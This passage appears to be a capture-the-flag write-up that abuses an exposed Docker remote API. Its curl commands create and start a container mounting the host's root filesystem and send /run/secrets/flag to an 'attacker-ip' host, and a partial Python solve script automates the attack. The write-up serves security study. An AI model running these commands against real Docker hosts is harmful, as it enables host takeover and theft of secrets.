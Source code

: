 ```bash
curl http://container_ip:2375/containers/create --json '{"Image":"3cfeb6abdca1b55f65d30b2e2cc02ddfb7ba742074295e5aadef44f42f7d9dd5","Cmd":["curl","http://attacker-ip","-d","@/run/secrets/flag"],"HostConfig":{"Binds":["/:/host"]}}' -o /tmp/containerid
```

This will create a new container, but it doesn't start it, so we need to save the container ID to a file and exil it with the same trick as before:

```bash
curl http://attacker-ip --json @/tmp/containerid
```

Which returns the container ID, such as this:

```json
{"Id":"c1d3e82b088a9ca0decdf410f937f1990e222d828df61857b0b16d11b5018736","Warnings":[]}
```

Finally, we can start the container.  However, this is slightly tricky, because the `start` endpoint requires a POST request with no body.  We can't specify `-X POST`, because we don't have capital letters.  However, if we use `--json @/dev/null`, curl automatically uses POST but sends no body:

```bash
curl http://container_ip:2375/containers/c1d3e82b088a9ca0decdf410f937f1990e222d828df61857b0b16d11b5018736/start --json @/dev/null
```


Then, we just have to listen on the attacker IP for the flag in the request body.


This whole process can be automated, including listening for the exfil requests, using the following solve script:

```python
# !/usr/bin/env python3
import json
import socket
import time
from threading import Thread
from urllib.parse import quote_plus

import requests

TARGET = "10.3.2.69:12348"
LOCAL_IP = "10.3.2.15"
PRISON_INTERNAL_IP = "172.17.0.1"  # 172.16-32.0.1


class Responder:
    def __init__(self, response: bytes = b"HTTP/1.1 200 OK\r\nConnection: close\r\n\r\n"):

        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.bind(("0.0.0.0", 0))
        self.sock.listen(1)
        self.port = self.sock.getsockname()[1]

        self.response = response
        self.data = b""
        Thread(target=self.listen).start()

    def listen(self):
        c, addr = self.sock.accept()
        c.settimeout(1)
        print(f"Connection from {addr}")

        try:
            try:
                while d := c.recv(1024):
```